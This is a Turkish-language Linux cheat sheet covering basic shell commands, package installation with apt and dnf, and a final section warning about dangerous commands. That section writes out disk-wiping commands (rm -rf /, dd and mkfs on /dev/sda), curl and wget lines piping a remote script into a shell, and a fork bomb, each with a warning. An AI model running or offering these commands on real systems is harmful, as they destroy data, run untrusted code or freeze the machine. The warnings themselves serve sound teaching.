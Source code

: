 # Linux Hile Kağıdı

## Temel komutlar

> Çoğu basit komut Unix benzeri olduğu için MacOS'e benzemektedir. 

```bash
cd ./klasor # Klasörün içine girer

cd ./project/src # project içindeki src klasörünün içine girer

rm -rf ./klasor # belirtilen klasörü içindekilerle beraber siler. 
# -r => Recursive => iç içe
# -f => Force => Zorla yaptır

## Dosya ya da klasör ismi yazarken tab tuşu yardımıyla otomatik tamamlayabilirsiniz

touch file.txt # file.txt adında yeni bir dosya açar

rm file.txt # file.txt dosyasını siler

cat file.txt # file.txt dosyasının içeriğini terminale basar

nano file.txt # file.txt dosyasını text editör ile açar. Kaydetmek için CTRL+O ve ENTER yapılır. Daha fazla işlem CTRL tuşu ile ekranın aşağısında ^ karakterinden sonra başlayan harfe basarak yapılabilir 

vim file.txt # file.txt dosyasını text editör ile açar. Daha fazla bilgi: vim.md

sudo komut # bir komutu yönetici olarak çalıştırmanıza olanak tanır. Yönetici parolası gerekir

```

# Uygulama kurma

- Eğer çalıştığınız Linux distrosu Debian, Ubuntu ya da benzeri bir işletim sistemi ise `apt` komutu kullanılır.

```bash
sudo apt-get update
#Sistemdeki paket reposu güncellenmeden uygulama kurulması sisteminizi bozabilir
sudo apt-get install fastfetch
fastfetch
``` 

- Eğer çalıştığınız Linux distrosu Red Hat, Fedora, Alma, ya da Rocky ise `dnf` komutu kullanılır.

```bash
sudo dnf install fastfetch
fastfetch
``` 

- Paket ismini bilmiyorsanız kullandığınız işletim sistemi ile beraber paket ismi aratılmalıdır. Ama bazen komutu yazıp enterlarsanız, ve komut bulunamadı hatasından sonra da bunu görüyorsanız, işletim sistemi muhtemelen buradan da kurmanıza izin verecektir


```
➜  ~ nest
bash: nest: komut bulunamadı...
'nest' paketi 'nest' komutunu sağlaması için kurulsun mu? [N/y] #y basılıp kurulabilir
```

- Sistem deposundan olmayan bir paket dışarıdan repo eklenerek kurulabilir. bu durumda eklenen repo'dan emin olunmalıdır

# ‼️‼️‼️Tehlikeli komutlar

```bash
rm -rf / 
# Kök pathini tamamen siler. Ancak bu işletim sisteminizin diskiyle sınırlı kalmayacaktır. Mountlanmış ne kadar disk varsa onlarla vedalaşmanız gerekecek

command >/dev/sda 
# bir komutun çıktısını diske yazar. Dolayısıyla diski siler. işletim sisteminizin çalıştığı disk de olabilir

dd if=/dev/random of=/dev/sda
## if ile belirtilen imajı diske imajlar. of= parametresindeki diskin imajlamak istediğiniz disk olduğundan EMİN OLUN

mkfs.ext3 /dev/sda
## Diski formatlar

wget http://unknown.com.tr/script.sh -O-|sh
curl -o- http://unknown.com.tr/script.sh |sh
curl -o- http://unknown.com.tr/script.sh |bash
curl -o- http://unknown.com.tr/script.sh |zsh vs vs
## Uzaktan script çalıştırır. Çalıştırmadan önce siteden emin olun

history | sh
# geçmişte çalıştırdığınız komutları tekrar çalıştırır. Muhtemelen ilk formattan itibaren...

:(){ :|:& };:
# kod fork bombası olarak bilinir. Kendini sistem donana kadar çalıştırır (forklar).

"/dev/null içerikli herhangi bir kod"
# /dev/null karadelik olarak bilinir. mv dosya /dev/null yaparak dosyalarınızı kaybedebilirsiniz ve ya sisteminizi bozabilirsiniz.

```